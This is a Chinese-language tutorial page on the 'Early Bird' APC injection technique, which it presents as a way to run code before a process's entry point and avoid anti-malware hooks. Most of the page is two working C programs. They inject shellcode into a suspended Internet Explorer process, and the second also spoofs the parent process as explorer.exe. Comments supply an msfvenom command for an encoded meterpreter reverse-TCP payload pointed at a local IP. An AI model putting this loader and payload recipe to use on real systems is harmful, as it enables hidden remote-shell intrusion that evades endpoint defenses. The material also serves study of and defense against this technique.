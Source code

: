 # Early Bird

## Early Bird简介

Early Bird是一种简单而强大的技术，Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数NtTestAlert，该函数会清空并处理APC队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，同时获得一个合法进程的环境信息。

线程初始化时调用NtTestAlert:

![](../.gitbook/assets/image%20%2897%29.png)

![](../.gitbook/assets/image%20%2896%29.png)

![](../.gitbook/assets/image%20%2898%29.png)

执行参考:

{% page-ref page="apc-and-nttestalert-code-execute.md" %}

## Early Bird流程

1. 创建一个挂起的进程\(通常是windows的合法进程\)
2. 在挂起的进程内申请一块可读可写可执行的内存空间
3. 往申请的空间内写入shellcode
4. 将APC插入到该进程的主线程
5. 恢复挂起进程的线程

![](../.gitbook/assets/image%20%2813%29.png)

## 代码实现

```text
#include <stdio.h>
#include <windows.h>
//msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
unsigned char shellcode[] = "";
int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(STARTUPINFO);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);

    return 0;
}
```

## 配合FakePPID和FakeCurrentDirectory使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
    unsigned char shellcode[] = ("");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    SetCurrentDirectoryA("C:\\Program Files\\internet explorer\\");

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);
    
    
    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2837%29.png)

![](../.gitbook/assets/image%20%288%29.png)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://blog.csdn.net/weixin\_42052102/article/details/83348780" %}





